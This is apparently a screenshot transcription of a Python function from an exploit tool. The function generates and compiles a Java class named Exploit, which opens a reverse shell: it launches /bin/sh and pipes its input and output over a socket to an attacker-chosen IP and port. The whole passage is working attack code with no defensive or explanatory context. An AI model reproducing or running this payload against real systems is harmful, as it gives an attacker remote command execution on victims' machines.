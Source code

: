 
    def generate_payload(userip: str, lport: int) -> None:
        program = """
    import java.io.IOException;
    import java.io.InputStream;
    import java.io.OutputStream;
    import java.net.Socket;

    public class Exploit {

        public Exploit() throws Exception {
            String host="%s";
            int port=%d;
            String cmd="/bin/sh";
            Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
            Socket s=new Socket(host,port);
            InputStream pi=p.getInputStream(),
                pe=p.getErrorStream(),
                si=s.getInputStream();
            OutputStream po=p.getOutputStream(),so=s.getOutputStream();
            while(!s.isClosed()) {
                while(pi.available()>0)
                    so.write(pi.read());
                while(pe.available()>0)
                    so.write(pe.read());
                while(si.available()>0)
                    po.write(si.read());
                so.flush();
                po.flush();
                Thread.sleep(50);
                try {
                    p.exitValue();
                    break;
                }
                catch (Exception e){
                }
            };
            p.destroy();
            s.close();
        }
    }
    """ % (userip, lport)

        # writing the exploit to Exploit.java file

        p = Path("Exploit.java")

        try:
            p.write_text(program)
            subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
        except OSError as e:
            print(Fore.RED + f'[-] Something went wrong {e}')
            raise e
        else:
            print(Fore.GREEN + '[+] Exploit java class created success')
